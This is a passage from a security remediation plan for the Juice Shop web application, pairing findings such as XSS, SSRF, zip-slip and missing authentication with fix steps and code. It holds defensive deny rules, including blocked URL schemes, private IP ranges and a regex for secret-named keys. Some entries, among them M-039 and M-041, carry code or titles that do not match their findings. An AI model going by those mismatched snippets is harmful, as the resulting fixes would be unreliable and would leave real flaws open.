**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/search-result/search-result.component.ts:132`

**How:** Remove `bypassSecurityTrustHtml` from `trustProductDescription()` at line 132. If product descriptions are intended to support limited HTML markup (bold, italic, links), use `DOMPurify.sanitize(description, { ALLOWED_TAGS: ['b','i','em','a'], ALLOWED_ATTR: ['href'] })` and then pass the result to `bypassSecurityTrustHtml` - this preserves formatting while stripping script-bearing elements. Alternatively, render descriptions as plain text using Angular's `{{ product.description }}` interpolation with no HTML binding.

1. Remove `bypassSecurityTrustHtml` from `trustProductDescription()` at line 132.
2. If product descriptions are intended to support limited HTML markup (bold, italic, links), use `DOMPurify.sanitize(description, { ALLOWED_TAGS: ['b','i','em','a'], ALLOWED_ATTR: ['href'] })` and then pass the result to `bypassSecurityTrustHtml` - this preserves formatting while stripping script-bearing elements.
3. Alternatively, render descriptions as plain text using Angular's `{{ product.description }}` interpolation with no HTML binding.

```javascript
import DOMPurify from 'dompurify'
// In trustProductDescription:
tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(
  DOMPurify.sanitize(tableData[i].description, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a'],
    ALLOWED_ATTR: ['href']
  })
)
```

**Reference:** CWE-79

---

<a id="m-027"></a>
#### M-027 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-019](#f-019) — DOM XSS (`search-result.component.ts:170`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/search-result/search-result.component.ts:170`

**How:** Replace `this.sanitizer.bypassSecurityTrustHtml(queryParam)` at line 170 with `queryParam` (a plain string) and update the template binding from `[innerHTML]="searchValue"` to `{{ searchValue }}` (Angular text interpolation) so Angular escapes the content. If HTML rendering in the search term display is a product requirement, apply a strict allowlist sanitizer such as `DOMPurify.sanitize(queryParam, { ALLOWED_TAGS: [] })` before binding.

1. Replace `this.sanitizer.bypassSecurityTrustHtml(queryParam)` at line 170 with `queryParam` (a plain string) and update the template binding from `[innerHTML]="searchValue"` to `{{ searchValue }}` (Angular text interpolation) so Angular escapes the content.
2. If HTML rendering in the search term display is a product requirement, apply a strict allowlist sanitizer such as `DOMPurify.sanitize(queryParam, { ALLOWED_TAGS: [] })` before binding.

```javascript
// In filterTable():
this.searchValue = queryParam  // plain string, not SafeHtml
// In template: use {{ searchValue }} instead of [innerHTML]="searchValue"
```

**Reference:** CWE-79

---

<a id="m-028"></a>
#### M-028 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-020](#f-020) — Stored XSS (`routes/saveLoginIp.ts:18`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/saveLoginIp.ts:18`

**How:** Replace the raw header read with IP address format validation: use `net.isIP(lastLoginIp)` from `Node.js` `net` module - reject if result is 0 (not a valid IPv4 or IPv6 address). Only trust proxy-set IP headers (X-Forwarded-For, True-Client-IP) if the application is deployed behind a known proxy - document and enforce this with `app.set('trust proxy', 'loopback')`. Apply `sanitizeSecure()` unconditionally regardless of challenge state for defense in depth.

1. Replace the raw header read with IP address format validation: use `net.isIP(lastLoginIp)` from `Node.js` `net` module - reject if result is 0 (not a valid IPv4 or IPv6 address)
2. Only trust proxy-set IP headers (X-Forwarded-For, True-Client-IP) if the application is deployed behind a known proxy - document and enforce this with `app.set('trust proxy', 'loopback')`
3. Apply `sanitizeSecure()` unconditionally regardless of challenge state for defense in depth

```javascript
import { isIP } from 'net'
const rawIp = req.headers['true-client-ip']
const lastLoginIp = typeof rawIp === 'string' && isIP(rawIp) !== 0 ? rawIp : utils.toSimpleIpAddress(req.socket.remoteAddress ?? '')
```

**Reference:** CWE-79

---

<a id="m-029"></a>
#### M-029 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟠 [F-021](#f-021) — Npm install --unsafe-perm runs postinstall scripts as root in — Dockerfile:5

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `Dockerfile:5`

**How:** Create a non-root user in the builder stage: `RUN addgroup --system appgroup && adduser --system --ingroup appgroup appuser`. Change ownership of the working directory before `npm install`: `RUN chown -R appuser:appgroup /juice-shop`. Switch to the non-root user: `USER appuser` before the `npm install` line. Remove the `--unsafe-perm` flag from the `npm install command`. add `--ignore-scripts` to `npm install and audit any postinstall scripts that are genuinely required`, running them explicitly as documented steps.

1. Create a non-root user in the builder stage: `RUN addgroup --system appgroup && adduser --system --ingroup appgroup appuser`.
2. Change ownership of the working directory before `npm install`: `RUN chown -R appuser:appgroup /juice-shop`.
3. Switch to the non-root user: `USER appuser` before the `npm install` line.
4. Remove the `--unsafe-perm` flag from the `npm install command`.
5. add `--ignore-scripts` to `npm install and audit any postinstall scripts that are genuinely required`, running them explicitly as documented steps.

```javascript
# In Dockerfile builder stage:
RUN adduser --system --no-create-home builduser
COPY --chown=builduser:root . /juice-shop
USER builduser
RUN npm install --omit=dev --ignore-scripts
```

**Reference:** CWE-250

---

<a id="m-030"></a>
#### M-030 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-022](#f-022) — Unpinned third-party GitHub Action allows supply-chain code (`ci.yml:161`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/ci.yml:161`

**How:** Run `npx pin-github-action` or check https://api.github.com/repos/coverallsapp/github-action/git/ref/tags/v2 to resolve the current @v2 commit SHA. Replace `uses: coverallsapp/github-action@v2` with `uses: coverallsapp/github-action@<sha> #v2.x.x` in `ci.yml` line 161. Audit all workflow files for additional mutable-tag references using: `grep -r 'uses:' .github/workflows/ | grep -v '#v' | grep -v '@[0-9a-f]\{40\}'`. Add a CI check (e.g., `zizmor` or `step-security/harden-runner`) to enforce SHA-pinning as a policy gate on all PRs.

1. Run `npx pin-github-action` or check https://api.github.com/repos/coverallsapp/github-action/git/ref/tags/v2 to resolve the current @v2 commit SHA.
2. Replace `uses: coverallsapp/github-action@v2` with `uses: coverallsapp/github-action@<sha> #v2.x.x` in `ci.yml` line 161.
3. Audit all workflow files for additional mutable-tag references using: `grep -r 'uses:' .github/workflows/ | grep -v '#v' | grep -v '@[0-9a-f]\{40\}'`.
4. Add a CI check (e.g., `zizmor` or `step-security/harden-runner`) to enforce SHA-pinning as a policy gate on all PRs.

```javascript
# Before (vulnerable):
- uses: coverallsapp/github-action@v2

# After (safe):
- uses: coverallsapp/github-action@643bc377fdfb74ed81eb09cb4efbf70f0f95bf96 #v2.3.6
```

**Reference:** CWE-829

---

<a id="m-031"></a>
#### M-031 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-023](#f-023) — Absent on and no Dependabot leaves dependency tree unlocked (`package.json:88`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `package.json:88`

**How:** Run `npm install` locally to generate `package-lock.json` and commit it to the repository. Replace `npm install` with `npm ci` in all CI workflow jobs to enforce lockfile-exact installation. Create `.github/dependabot.yml` with an `npm` ecosystem entry targeting the repo root and `frontend/` directory. Add `--ignore-scripts` to `npm ci` commands in CI where postinstall scripts are not required for the specific job (e.g., lint, rsn checks). Review the `postinstall` script in `package.json` and document why it is required; add `# audited: <date> <reviewer>` annotation.

1. Run `npm install` locally to generate `package-lock.json` and commit it to the repository.
2. Replace `npm install` with `npm ci` in all CI workflow jobs to enforce lockfile-exact installation.
3. Create `.github/dependabot.yml` with an `npm` ecosystem entry targeting the repo root and `frontend/` directory.
4. Add `--ignore-scripts` to `npm ci` commands in CI where postinstall scripts are not required for the specific job (e.g., lint, rsn checks).
5. Review the `postinstall` script in `package.json` and document why it is required; add `# audited: <date> <reviewer>` annotation.

```javascript
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: npm
    directory: /
    schedule:
      interval: weekly
  - package-ecosystem: npm
    directory: /frontend
    schedule:
      interval: weekly
```

**Reference:** CWE-1104

---

<a id="m-032"></a>
#### M-032 — Add a model-layer beforeUpdate hook that rejects role changes by non-admin callers

**Addresses:**

- 🟠 [F-024](#f-024) — User role field writable without ownership check in model (`models/user.ts:80`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `models/user.ts:80`

**How:** Add a Sequelize `beforeUpdate` hook on `UserModel` that checks `user.changed('role')` and throws an error unless the invoking context carries an admin capability flag (passed via Sequelize `options.context`). Audit all route handlers that call `UserModel.update()` or `UserModel.create()` and ensure `role` is not included in the allowed `fields` array for non-admin callers. Add an integration test that asserts a customer-role JWT cannot elevate itself to admin via any `PUT /api/Users/:id` endpoint.

1. Add a Sequelize `beforeUpdate` hook on `UserModel` that checks `user.changed('role')` and throws an error unless the invoking context carries an admin capability flag (passed via Sequelize `options.context`).
2. Audit all route handlers that call `UserModel.update()` or `UserModel.create()` and ensure `role` is not included in the allowed `fields` array for non-admin callers.
3. Add an integration test that asserts a customer-role JWT cannot elevate itself to admin via any `PUT /api/Users/:id` endpoint.

```javascript
// models/user.ts — role-change guard hook
User.addHook('beforeUpdate', (user, options: any) => {
  if (user.changed('role') && options?.context?.callerRole !== 'admin') {
    throw new Error('Unauthorized role change')
  }
})
```

**Reference:** CWE-284

---

<a id="m-033"></a>
#### M-033 — Constrain file paths to a safe base directory

**Addresses:**

- 🟠 [F-025](#f-025) — Zip-Slip Path Traversal (`routes/fileUpload.ts:45`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:45`

**How:** Replace the `path.resolve('.')` boundary check with a check against the resolved uploads/complaints/ directory: const `uploadDir` = `path.resolve('uploads/complaints/')`; if (!`absolutePath.startsWith(uploadDir + path.sep)`) { `entry.autodrain()`; return; }. Use `path.basename(entry.path)` to strip any directory component from the entry filename before writing, preventing any subdirectory traversal regardless of boundary check. Consider using the unzipper library's `safeFilter` option or a well-audited zip-extraction helper that sanitizes entry paths by default.

1. Replace the `path.resolve('.')` boundary check with a check against the resolved uploads/complaints/ directory: const `uploadDir` = `path.resolve('uploads/complaints/')`; if (!`absolutePath.startsWith(uploadDir + path.sep)`) { `entry.autodrain()`; return; }
2. Use `path.basename(entry.path)` to strip any directory component from the entry filename before writing, preventing any subdirectory traversal regardless of boundary check.
3. Consider using the unzipper library's `safeFilter` option or a well-audited zip-extraction helper that sanitizes entry paths by default.

```javascript
// routes/fileUpload.ts — safe extraction
const uploadDir = path.resolve('uploads/complaints')
const fileName = path.basename(entry.path)  // strip directory components
const absolutePath = path.resolve(uploadDir, fileName)
if (!absolutePath.startsWith(uploadDir + path.sep)) {
  entry.autodrain()
  return
}
entry.pipe(fs.createWriteStream(absolutePath))
```

**Reference:** CWE-22

---

<a id="m-034"></a>
#### M-034 — Add security audit logging

**Addresses:**

- 🟠 [F-026](#f-026) — Missing Audit Logging for Authentication Events (`routes/login.ts:18`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/login.ts:19`

**How:** Add a structured logger (e.g. `winston` with JSON transport) and emit `{ event: 'LOGIN_SUCCESS', userId, email, ip, timestamp }` in `afterLogin()` at `routes/login.ts:19`. Emit `{ event: 'LOGIN_FAILURE', email, ip, timestamp, reason: 'invalid_credentials' }` in the else branch at `routes/login.ts:50`. Emit `{ event: 'PASSWORD_RESET', userId, email, ip, timestamp }` in `resetPassword.ts` after the successful `user.update()` call at line 44. Route these events to an append-only log sink (file, SIEM, or CloudWatch Logs) that is not writable by the application process.

1. Add a structured logger (e.g. `winston` with JSON transport) and emit `{ event: 'LOGIN_SUCCESS', userId, email, ip, timestamp }` in `afterLogin()` at `routes/login.ts:19`
2. Emit `{ event: 'LOGIN_FAILURE', email, ip, timestamp, reason: 'invalid_credentials' }` in the else branch at `routes/login.ts:50`
3. Emit `{ event: 'PASSWORD_RESET', userId, email, ip, timestamp }` in `resetPassword.ts` after the successful `user.update()` call at line 44
4. Route these events to an append-only log sink (file, SIEM, or CloudWatch Logs) that is not writable by the application process

```typescript
// Log authn / authz outcomes with stable correlation ids.
logger.info({ event: 'auth.login.fail', userId, ip: req.ip, reqId })
logger.info({ event: 'authz.deny', userId, route: req.path, reqId })
```

**Verification:** A failed admin probe leaves an `authz.deny` line in the central log within 1 s.

**Reference:** CWE-778

---

<a id="m-035"></a>
#### M-035 — Add security audit logging

**Addresses:**

- 🟠 [F-027](#f-027) — Missing Security Event Audit Log (`server.ts:338`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:338`

**How:** Add a `securityLogger` (e.g., `winston` with a separate transport) that records `{ event, actor, resource, outcome, timestamp, ip }` for login success/failure, token validation failure, admin mutations, and access-control rejections. In `routes/login.ts`, call `securityLogger.info({ event: 'login', actor: req.body.email, outcome: user ? 'success' : 'failure', ip: req.ip })` after the DB query. Write to an append-only sink (S3 object per day, CloudWatch Logs, or a SIEM-connected log stream) that the application process cannot delete. Ensure `express-jwt` errors are intercepted and logged before the 401 response is sent.

1. Add a `securityLogger` (e.g., `winston` with a separate transport) that records `{ event, actor, resource, outcome, timestamp, ip }` for login success/failure, token validation failure, admin mutations, and access-control rejections.
2. In `routes/login.ts`, call `securityLogger.info({ event: 'login', actor: req.body.email, outcome: user ? 'success' : 'failure', ip: req.ip })` after the DB query.
3. Write to an append-only sink (S3 object per day, CloudWatch Logs, or a SIEM-connected log stream) that the application process cannot delete.
4. Ensure `express-jwt` errors are intercepted and logged before the 401 response is sent.

```typescript
// Log authn / authz outcomes with stable correlation ids.
logger.info({ event: 'auth.login.fail', userId, ip: req.ip, reqId })
logger.info({ event: 'authz.deny', userId, route: req.path, reqId })
```

**Verification:** A failed admin probe leaves an `authz.deny` line in the central log within 1 s.

**Reference:** CWE-778

---

<a id="m-036"></a>
#### M-036 — Stop storing sensitive data in cleartext

**Addresses:**

- 🟠 [F-028](#f-028) — Password Credentials in URL Query Parameters (`user.service.ts:54`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `user.service.ts:54`

**How:** Change `changePassword()` at `user.service.ts:54` from `this.http.get(url?current=...&new=...)` to `this.http.post('/rest/user/change-password', { current, new, repeat })`. Update the Express Backend route handler for `/rest/user/change-password` to read credentials from `req.body` instead of `req.query`.

1. Change `changePassword()` at `user.service.ts:54` from `this.http.get(url?current=...&new=...)` to `this.http.post('/rest/user/change-password', { current, new, repeat })`.
2. Update the Express Backend route handler for `/rest/user/change-password` to read credentials from `req.body` instead of `req.query`.

```javascript
// user.service.ts
changePassword (passwords: Passwords) {
  return this.http.post(this.hostServer + '/rest/user/change-password', passwords)
    .pipe(map((response: any) => response.user), catchError((err) => { throw err.error }))
}
```

**Reference:** CWE-312

---

<a id="m-037"></a>
#### M-037 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-029](#f-029) — Hardcoded HMAC Key for Security Answer Verification (`lib/insecurity.ts:44`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `lib/insecurity.ts:44`

**How:** Replace the hardcoded string at `lib/insecurity.ts:44` with `process.env.HMAC_SECRET` loaded at startup with a fail guard. Generate a new cryptographically random 256-bit key (`node -e "console.log(require('crypto').randomBytes(32).toString('hex'))"`) and provision via environment variable. Re-hash all existing security answers using the new key (migration script).

1. Replace the hardcoded string at `lib/insecurity.ts:44` with `process.env.HMAC_SECRET` loaded at startup with a fail guard
2. Generate a new cryptographically random 256-bit key (`node -e "console.log(require('crypto').randomBytes(32).toString('hex'))"`) and provision via environment variable
3. Re-hash all existing security answers using the new key (migration script)

```javascript
const hmacSecret = process.env.HMAC_SECRET ?? (() => { throw new Error('HMAC_SECRET not set') })()
export const hmac = (data: string) => crypto.createHmac('sha256', hmacSecret).update(data).digest('hex')
```

**Reference:** CWE-321

---

<a id="m-039"></a>
#### M-039 — Stop exposing internal information to clients

**Addresses:**

- 🟠 [F-035](#f-035) — Unauthenticated Application Configuration Endpoint (`server.ts:605`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:605`

**How:** Add `security.isAuthorized()` and an admin-role check (`security.isAccounting()` pattern extended to admin) as middleware before `GET /rest/admin/application-configuration` in `server.ts:605`. Filter the config object to exclude secret fields before serializing: strip any key whose name matches `/secret|password|key|token|credential/i`. Audit all `GET /rest/admin/*` routes for missing authentication.

1. Add `security.isAuthorized()` and an admin-role check (`security.isAccounting()` pattern extended to admin) as middleware before `GET /rest/admin/application-configuration` in `server.ts:605`.
2. Filter the config object to exclude secret fields before serializing: strip any key whose name matches `/secret|password|key|token|credential/i`.
3. Audit all `GET /rest/admin/*` routes for missing authentication.

```typescript
// Remove directory-listing middleware; require auth on management endpoints.
// app.use('/ftp', serveIndex(...))   // delete
app.use('/metrics', requireRole('admin'), promBundle())
```

**Verification:** Unauthenticated `GET /metrics` returns 401; `GET /ftp/` returns 404.

**Reference:** CWE-200

---

<a id="m-040"></a>
#### M-040 — Restrict /encryptionkeys and /support/logs behind isAuthorized and admin-role middleware

**Addresses:**

- 🟠 [F-036](#f-036) — Unauthenticated Directory Listing (`server.ts:277`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:277`

**How:** Add `security.isAuthorized(), security.isAccounting()` (or admin role check) before the `serveIndex` mount for `/encryptionkeys`. Add `security.isAuthorized()` before `/support/logs` and restrict to admin or accounting roles. Remove `/encryptionkeys` from production deployments entirely - the public key can be embedded in the application config.

1. Add `security.isAuthorized(), security.isAccounting()` (or admin role check) before the `serveIndex` mount for `/encryptionkeys`.
2. Add `security.isAuthorized()` before `/support/logs` and restrict to admin or accounting roles.
3. Remove `/encryptionkeys` from production deployments entirely - the public key can be embedded in the application config.

**Reference:** CWE-548

---

<a id="m-041"></a>
#### M-041 — Stop exposing internal information to clients

**Addresses:**

- 🟠 [F-037](#f-037) — SSRF Response Body Exposed (`routes/profileImageUrlUpload.ts:29`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `profileImageFileUpload.ts:24`

**How:** Write fetched content to a temporary path outside the public web root (e.g., `os.tmpdir()`). Validate the MIME type of the written file using file-type (already used in `profileImageFileUpload.ts:24`) - accept only image/* types. Only after MIME validation passes, move the file to the public uploads directory. Restrict the static file server for `/assets/public/images/uploads/` to require authentication (e.g., express-jwt middleware) or serve profile images through an authenticated API endpoint.

1. Write fetched content to a temporary path outside the public web root (e.g., `os.tmpdir()`).
2. Validate the MIME type of the written file using file-type (already used in `profileImageFileUpload.ts:24`) - accept only image/* types.
3. Only after MIME validation passes, move the file to the public uploads directory.
4. Restrict the static file server for `/assets/public/images/uploads/` to require authentication (e.g., express-jwt middleware) or serve profile images through an authenticated API endpoint.

```typescript
// Remove directory-listing middleware; require auth on management endpoints.
// app.use('/ftp', serveIndex(...))   // delete
app.use('/metrics', requireRole('admin'), promBundle())
```

**Verification:** Unauthenticated `GET /metrics` returns 401; `GET /ftp/` returns 404.

**Reference:** CWE-200

---

<a id="m-042"></a>
#### M-042 — Validate and allowlist outbound request targets

**Addresses:**

- 🟠 [F-038](#f-038) — SSRF (`routes/profileImageUrlUpload.ts:24`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/profileImageUrlUpload.ts:24`

**How:** Validate `req.body`.`imageUrl` is an http:// or https:// URL before calling `fetch()` - reject file://, gopher://, dict://, and relative URLs. Implement an allowlist of trusted external domains or a denylist that blocks private IP ranges (RFC 1918: 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16), loopback (127.0.0.0/8), and link-local (169.254.0.0/16) via DNS resolution before the request. Use the ssrf-req-filter or got library with socket-level IP blocking instead of raw `fetch()` to prevent DNS rebinding attacks. Set an AbortSignal timeout on the `fetch()` call to prevent the server from hanging on slow internal hosts. Do not write fetched content to the public static directory - store in a non-web-accessible staging path and validate MIME type before moving.

1. Validate `req.body`.`imageUrl` is an http:// or https:// URL before calling `fetch()` - reject file://, gopher://, dict://, and relative URLs.
2. Implement an allowlist of trusted external domains or a denylist that blocks private IP ranges (RFC 1918: 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16), loopback (127.0.0.0/8), and link-local (169.254.0.0/16) via DNS resolution before the request.
3. Use the ssrf-req-filter or got library with socket-level IP blocking instead of raw `fetch()` to prevent DNS rebinding attacks.
4. Set an AbortSignal timeout on the `fetch()` call to prevent the server from hanging on slow internal hosts.
5. Do not write fetched content to the public static directory - store in a non-web-accessible staging path and validate MIME type before moving.

```javascript
// Minimal URL validation before fetch
const parsedUrl = new URL(url)  // throws on invalid URL
if (!['http:', 'https:'].includes(parsedUrl.protocol)) throw new Error('Invalid scheme')
// Use ssrf-req-filter for IP range blocking
const { SsrfFilter } = require('ssrf-req-filter')
const filter = new SsrfFilter()
await filter.fetch(url, { signal: AbortSignal.timeout(5000) })
```

**Reference:** CWE-918

---

<a id="m-043"></a>
#### M-043 — Stop exposing internal information to clients

**Addresses:**

- 🟠 [F-039](#f-039) — CTF Flag Broadcast to All Unauthenticated WebSocket (`lib/challengeUtils.ts:71`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `registerWebsocketEvents.ts:30`

**How:** After adding JWT auth middleware (realtime-channel-001), store the solving user's socket ID and emit `challenge solved` only to `io.to(socketId).emit(...)` rather than `io.emit(...)`. For the notification replay on reconnect (`registerWebsocketEvents.ts:30`-32), scope the replayed notifications to the authenticated user's own challenge history using the user ID from `socket.data.user`. If broadcast is intentional for co-op mode, strip the `flag` field from the broadcasted payload and only deliver flag values via direct socket emission to the solving user.

1. After adding JWT auth middleware (realtime-channel-001), store the solving user's socket ID and emit `challenge solved` only to `io.to(socketId).emit(...)` rather than `io.emit(...)`.
2. For the notification replay on reconnect (`registerWebsocketEvents.ts:30`-32), scope the replayed notifications to the authenticated user's own challenge history using the user ID from `socket.data.user`.
3. If broadcast is intentional for co-op mode, strip the `flag` field from the broadcasted payload and only deliver flag values via direct socket emission to the solving user.

```javascript
// challengeUtils.ts - targeted emit instead of broadcast
if (globalWithSocketIO.io && userSocketId) {
  globalWithSocketIO.io.to(userSocketId).emit('challenge solved', notification)
}
```

**Reference:** CWE-200

---

<a id="m-044"></a>
#### M-044 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-040](#f-040) — Unbounded In-Memory Token Map Enables Session Exhaustion (`lib/insecurity.ts:75`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:75`

**How:** Apply `express-rate-limit` to `POST /rest/user/login` with a limit of 10 requests per 15-minute window per IP. Replace the plain object `tokenMap` with an LRU-cache (`npm install lru-cache`) capped at 10,000 entries with a 6-hour TTL matching the JWT `expiresIn: '6h'`. Alternatively, eliminate the in-memory store entirely and derive session state directly from the verified JWT payload.

1. Apply `express-rate-limit` to `POST /rest/user/login` with a limit of 10 requests per 15-minute window per IP
2. Replace the plain object `tokenMap` with an LRU-cache (`npm install lru-cache`) capped at 10,000 entries with a 6-hour TTL matching the JWT `expiresIn: '6h'`
3. Alternatively, eliminate the in-memory store entirely and derive session state directly from the verified JWT payload

```javascript
import { LRUCache } from 'lru-cache'
const tokenMap = new LRUCache<string, ResponseWithUser>({ max: 10000, ttl: 6 * 60 * 60 * 1000 })
```

**Reference:** CWE-770

---

<a id="m-045"></a>
#### M-045 — Offload CPU-bound work and bound execution time

**Addresses:**

- 🟠 [F-041](#f-041) — Event-loop blocking DoS (`routes/b2bOrder.ts:23`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:** Apply `express-rate-limit` to the `/b2b/v2` router: `app.use('/b2b/v2', rateLimit({ windowMs: 60000, max: 10 }))` - limits each IP to 10 requests per minute. If expression evaluation must be retained, move it to a Worker Thread (`worker_threads`) or child process so the main event loop is not blocked. Set a strict CPU time limit in the worker and terminate it on timeout rather than blocking the main thread. Alternatively, remove the eval entirely (see b2b-api-001) which also eliminates this DoS vector.

1. Apply `express-rate-limit` to the `/b2b/v2` router: `app.use('/b2b/v2', rateLimit({ windowMs: 60000, max: 10 }))` - limits each IP to 10 requests per minute.
2. If expression evaluation must be retained, move it to a Worker Thread (`worker_threads`) or child process so the main event loop is not blocked.
3. Set a strict CPU time limit in the worker and terminate it on timeout rather than blocking the main thread.
4. Alternatively, remove the eval entirely (see b2b-api-001) which also eliminates this DoS vector.

```javascript
// server.ts — add rate limit before B2B routes
import rateLimit from 'express-rate-limit'
app.use('/b2b/v2', rateLimit({ windowMs: 60 * 1000, max: 10, standardHeaders: true, legacyHeaders: false }))
app.use('/b2b/v2', security.isAuthorized())
```

**Reference:** CWE-400

---

<a id="m-046"></a>
#### M-046 — Add document-count limits and TTL-based eviction to MarsDB collections, or replace with a bounded persistent store

**Addresses:**

- 🟠 [F-042](#f-042) — Unbounded in-memory MarsDB collections with no eviction (`data/mongodb.ts:9`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `data/mongodb.ts:9`

**How:** Enforce a maximum document count on `reviewsCollection` and `ordersCollection` in `data/mongodb.ts`; on insert, if `collection.size > MAX_DOCS`, reject with a 429 error at the route layer before the DB write. Apply rate limiting at the Express route level for review and order creation endpoints (e.g., `express-rate-limit` with `windowMs: 60000, max: 10` per IP). Consider replacing MarsDB (unmaintained since 2016) with a bounded persistence layer (SQLite table with a LIMIT constraint or Redis with `MAXMEMORY-POLICY allkeys-lru`). Set `NODE_OPTIONS=--max-old-space-size=512` and configure a process supervisor (PM2, systemd) to auto-restart on OOM, limiting blast radius.

1. Enforce a maximum document count on `reviewsCollection` and `ordersCollection` in `data/mongodb.ts`; on insert, if `collection.size > MAX_DOCS`, reject with a 429 error at the route layer before the DB write.
2. Apply rate limiting at the Express route level for review and order creation endpoints (e.g., `express-rate-limit` with `windowMs: 60000, max: 10` per IP).
3. Consider replacing MarsDB (unmaintained since 2016) with a bounded persistence layer (SQLite table with a LIMIT constraint or Redis with `MAXMEMORY-POLICY allkeys-lru`).
4. Set `NODE_OPTIONS=--max-old-space-size=512` and configure a process supervisor (PM2, systemd) to auto-restart on OOM, limiting blast radius.

**Reference:** CWE-400

---

<a id="m-047"></a>
#### M-047 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-043](#f-043) — No Rate Limiting on Login Endpoint (`server.ts:594`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:594`

**How:** Add `rateLimit({ windowMs: 15 * 60 * 1000, max: 10 })` middleware before `app.post('/rest/user/login', ...)` in `server.ts:594`. Fix the key generator on the existing reset-password rate limiter: remove the `X-Forwarded-For` override and rely on the trusted IP derived from `req.ip` (Express normalizes this when `trust proxy` is set correctly). Implement exponential backoff or CAPTCHA after 5 consecutive failures for the same account. Consider account lockout after N failed attempts with unlock via email.

1. Add `rateLimit({ windowMs: 15 * 60 * 1000, max: 10 })` middleware before `app.post('/rest/user/login', ...)` in `server.ts:594`.
2. Fix the key generator on the existing reset-password rate limiter: remove the `X-Forwarded-For` override and rely on the trusted IP derived from `req.ip` (Express normalizes this when `trust proxy` is set correctly).
3. Implement exponential backoff or CAPTCHA after 5 consecutive failures for the same account.
4. Consider account lockout after N failed attempts with unlock via email.

```javascript
// server.ts — before app.post('/rest/user/login')
app.post('/rest/user/login',
  rateLimit({ windowMs: 15 * 60 * 1000, max: 10 }),
  login()
)
```

**Reference:** CWE-307

---

<a id="m-048"></a>
#### M-048 — Bound parser and decompression resource limits

**Addresses:**

- 🟠 [F-044](#f-044) — XML Billion-Laughs DoS (`routes/fileUpload.ts:83`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `fileUpload.ts:83`

**How:** Set `noent:false` in `libxml.parseXml()` options at `fileUpload.ts:83` - eliminates entity expansion in the native parser. Apply an additional request rate limit (e.g., express-rate-limit: max 5 requests per 60 seconds) on `POST /file-upload` since it is unauthenticated. If the XML upload path is fully deprecated, remove `handleXmlUpload` from the middleware chain to eliminate the attack surface entirely.

1. Set `noent:false` in `libxml.parseXml()` options at `fileUpload.ts:83` - eliminates entity expansion in the native parser.
2. Apply an additional request rate limit (e.g., express-rate-limit: max 5 requests per 60 seconds) on `POST /file-upload` since it is unauthenticated.
3. If the XML upload path is fully deprecated, remove `handleXmlUpload` from the middleware chain to eliminate the attack surface entirely.

**Reference:** CWE-400

---

<a id="m-049"></a>
#### M-049 — Harden the authentication flow

**Addresses:**

- 🟠 [F-045](#f-045) — JWT Algorithm Bypass in 2FA Token Verification (`routes/2fa.ts:26`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/2fa.ts:26`

**How:** After a successful password check in `routes/login.ts`, store a cryptographic nonce in an in-memory set (or Redis) keyed by `userId` with a 5-minute TTL. Issue `tmpToken` containing only the nonce (not the `userId`) - the server maps nonce→`userId` on verification. In `routes/2fa.ts:verify()`, look up the nonce in the store and delete it after first use (one-time use enforcement). This eliminates the need to trust token contents for user identity at the 2FA step.

1. After a successful password check in `routes/login.ts`, store a cryptographic nonce in an in-memory set (or Redis) keyed by `userId` with a 5-minute TTL
2. Issue `tmpToken` containing only the nonce (not the `userId`) - the server maps nonce→`userId` on verification
3. In `routes/2fa.ts:verify()`, look up the nonce in the store and delete it after first use (one-time use enforcement)
4. This eliminates the need to trust token contents for user identity at the 2FA step

**Reference:** CWE-287

---

<a id="m-050"></a>
#### M-050 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-046](#f-046) — Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:310`

**How:** Add an explicit auth middleware (`isAuthorized()` / `passport.authenticate()` / `requireAuth`) to the route registration, or mark the route intentionally public via `app.get(...)` for read-only access only.

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Hit `/admin/...` with a non-admin JWT and confirm 403 (not 200).

---

<a id="m-051"></a>
#### M-051 — Replace curl-pipe Heroku CLI install with pinned GitHub Action or checksum-verified download

**Addresses:**

